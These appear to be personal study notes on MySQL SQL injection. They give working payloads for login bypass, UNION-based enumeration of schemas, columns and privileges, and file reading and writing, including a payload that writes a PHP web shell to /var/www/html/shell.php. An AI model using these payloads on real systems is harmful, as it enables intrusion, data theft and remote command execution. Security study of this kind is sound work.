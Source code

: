 Mysql client >> do not provide flag for password as it is stored in history in cleartext

Check privs with *SHOW GRANTS*

## Types of injection
 - Blind
 - In band
 -  out of band

#### Blind - Boolean based/ Time Based
#### In Band - Union Based / Error Based
#### Out of Band - No output but effect other location


## Subverting Query Logic

Test if form is vulnerable to SQLinjection, does it filter `(', ;, :, #)`

Can add `' OR 1 = 1` to login fields too
use `' OR 1 =1 ` in the username field if we know the admin login
use `' OR 1 = 1 ` in password field to select first user from the database (Which is usually admin)

Passwords are usually hashed so is tricky to SQL inject with them.


###### Comment shit out with ;-- - to kill off a line (can also use %23(#))

### Union Combines Results

Union combines results with other fields using the union as CrossRef 

before using union injections we need to find amount of rows in tables.

incrimenting order by untill we get an error 

example 
```SQL
 ' ORDER BY 1 ---                                '
-- ADD ANOTHER NUMBER UNTIL ERROR
 ' ORDER BY 2 --                                  ' 
 ERROR
 One COLUMN
```

Not all columns always visible.
using columns as junk data allows us to see which columns are being printed

```sql
cn' UNION select 1,@@version,3,4-- -
```
will display version

cn' UNION SELECT 1, user(), 3 4; -- -


### MYSQL Fingerprinting

SELECT @@version

Information SCHEMA
Most databases have a schema. this shows metadata, databases and tables present on server.

```shell-session
SELECT * FROM INFORMATION_SCHEMA.SCHEMATA;
```

INFORMATION_SCHEMA.TABLES > TABLE_NAME(names) & TABLE_SCHEMA()

> Find printed numbers
> Select TABLE_SCHEMA and TABLE_NAME in those

we can then enum column names with COLUMN_NAME

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='products'-- -
```


we can then use {TABLE_SCHEMA}.{TABLE_NAME} for our search functions

#### Reading Files

Relies on LOAD_FILE() function of sql

SQL can see user with SELECT USER()
can check user privs with
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

Possible that php code can display in the browser

#### Writing Files
secure_file_priv allows writing to files.  can check with

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

if Secure file priv is empty then anyone can read/write

to write files use INTO OUTFILE '/file/path'
> It is possible to send strings directly to the outfile
```sql
SELECT "HELLO" from users INTO OUTFILE '/etc/passwd'
```

the files that are created are then owned by the sql server.
if the sql server is running root and makes a shell it will be root

__Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.__

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
^STOLEN SHELL
### MITIGATION
 
- Input Sanitization
- Input Validation
- User privileges  - Server reader should not be able to read/write files. and can only read certain tables.
- Web Application Firewall(waf) which detects any malicious http requests and rejects 



2345 SELECTED

```sql
	cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -
```

cn' UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA, 4, 5 from INFORMATION_SCHEMA.COLUMNS-- -


y is superuser?